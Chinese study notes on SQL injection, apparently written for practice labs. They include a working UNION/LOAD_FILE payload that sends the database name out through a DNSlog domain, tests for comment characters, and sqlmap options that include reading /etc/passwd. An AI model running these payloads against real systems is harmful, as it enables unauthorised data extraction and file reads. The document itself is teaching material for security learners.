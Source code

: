 注意：  
1. 每次最多取63字节  
2. DNSlog网址前的 . 必不可少
3. `show variables like '%secure%';`查看load_file()可以读取的磁盘。

前置知识——UNC路径:
1. windows的命名惯例，可以依靠添加“`\\\\`”来引发DNS解析，`\\\\`转义后就是`\\`

示例命令：
```
?id=-1')) union SELECT LOAD_FILE(CONCAT('\\\\',(SELECT HEX(database())),'.m8rwsy.ceye.io\\abc')),2,3--+
```
- LOAD_FILE：关键命令，读取文件内容
- CONCAT：连接字符串
- `.m8rwsy.ceye.io\\abc`:指定的DNSlog网址
----
# 测试注释符
?id=11#1 回显admin3,说明注释符都能用 
?id=11--+1 回显admin3

----
# order by
有order by作为后端的SQL语句时，union不可用
## sqlmap
^sqlmap


![sqlmap](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/sqlmap.png)
## 补充
- 如果需要验证登录如302重定向，需要--cookie后接cookie来进行登录
- 如果url中有多个参数，用`-p`来指定参数如 `-p id`就是指定id参数
- --file-read="/etc/passwd":读取文件内容
[[DVWA#^d5e614|sqlmap应用]]